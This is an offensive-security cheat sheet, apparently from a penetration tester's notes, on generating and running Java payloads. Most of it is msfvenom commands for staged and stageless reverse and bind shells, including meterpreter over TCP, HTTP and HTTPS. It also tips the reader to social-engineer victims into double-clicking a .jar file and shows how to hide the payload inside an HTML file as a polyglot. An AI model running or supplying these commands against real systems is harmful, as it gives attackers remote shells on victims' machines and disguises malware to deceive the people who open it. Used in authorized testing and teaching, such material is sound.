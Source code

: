 # Manual

## 01 - Generate Payloads

### 1.1 - Reverse Shells

#### 1.1.1 - TCP

Staged reverse shell.

```
$ msfvenom -p java/shell/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

Stageless reverse shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

#### 1.1.2 - HTTP

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

#### 1.1.3 - HTTP via TLS

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_https handlersslcert=[/path/to/certificate.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

### 1.2 - Bind Shells

Staged bind shell.

```
$ msfvenom -p java/shell/bind_tcp lport=<PORT> [RHOST=<target_IP>] -f raw -o payload.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/bind_tcp lport=<PORT> [rhost=<target_IP>] -f raw -o payload.jar
```

## 02 - Execute Payloads

> [!TIP]
> On windows, you can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the payload especially when the target is windows.
> > [!TIP] Java Payloads
> > You can actually social engineer the victim to double click the `.jar` to establish connection.

```
> java -jar payload.jar
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.jar` payload.

Bind the binary files together.

```
C:\> copy /y /b filename.html+payload.jar hidden_payload.html
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.html+payload.jar hidden_payload.html
```

Then execute it

```
C:\> java.exe -jar hidden_payload.html
```

## 04 - Compile After Delivery

> [!INFO]
> Once the source code (`filename.java`) has been compiled. It'll create a class file (`filename.class`) that can be executed with just the `filename`.

^335fe5

```
> javac payload.java

> java payload
```

^3775c1

---
## References

### Source Repositories

- [deepinstinct: JAR-Polyglot-POC](https://github.com/deepinstinct/JAR-Polyglot-POC)